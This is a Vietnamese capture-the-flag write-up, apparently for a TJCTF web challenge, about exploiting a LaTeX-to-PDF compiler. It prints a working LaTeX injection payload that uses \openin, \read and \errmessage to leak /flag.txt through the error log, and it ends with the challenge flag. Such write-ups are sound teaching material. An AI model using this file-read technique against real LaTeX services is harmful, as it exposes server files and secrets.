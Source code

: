 ![image](https://github.com/user-attachments/assets/74aac643-dc8b-4cd8-873a-c86b73317642)

# **ANALYZE**

Trang web này chính là 1 trình biên dịch latex thành file PDF :

![image](https://github.com/user-attachments/assets/94f7ee1c-8f04-4011-943d-2457d236af3b)

Nếu quá trình biên dịch thất bại, log file sẽ được trả về
Có một flag được lưu trong file hệ thống tại đường dẫn: `/flag.txt`

Và ở bài này thì khả năng cao chính là lỗ hổng `LaTeX Injection`

Thì sơ qua về lỗ hổng này là : 
```
Người dùng có thể chèn mã LaTeX tùy ý vào document được biên dịch.

Nếu không kiểm soát đủ các lệnh nguy hiểm (như \input, \openin, \write18, ...), người dùng có thể tương tác với hệ thống tệp.
```

Và sau khi thử với 1 số câu lệnh thì tôi rút ra được là : 
-Cho phép chèn mã LaTeX tùy ý
-Trả về log nếu có lỗi LaTeX

![image](https://github.com/user-attachments/assets/53036fa6-3748-48c2-8d3b-2f2a0ff77227)


-Không chặn \openin, \read

![image](https://github.com/user-attachments/assets/4ea51e10-817d-4728-a424-b89239b271ad)


-File /flag.txt tồn tại và có quyền đọc

![image](https://github.com/user-attachments/assets/b31a8ef8-9ddd-4f31-82fa-04265ea7c5fc)


# **EXPLOIT **


PAYLOAD của bài : 
```
\newread\file
\openin\file=/flag.txt
\read\file to \filecontent
\errmessage{\filecontent}

```
Giải thích : 
```
\newread\file :	Tạo một "handle" (biến tạm) để đọc file.
\openin\file=/flag.txt :	Mở file /flag.txt để đọc.
\read\file to \filecontent :	Đọc 1 dòng đầu tiên của file vào biến \filecontent.
\errmessage{\filecontent} :	Tạo lỗi chứa nội dung \filecontent, từ đó nội dung file xuất hiện trong log.
```

![image](https://github.com/user-attachments/assets/3e182a08-4cca-4e88-b148-68b86b042b56)


# **FLAG **
`tjctf{f1l3_i0_1n_l4t3x?}`
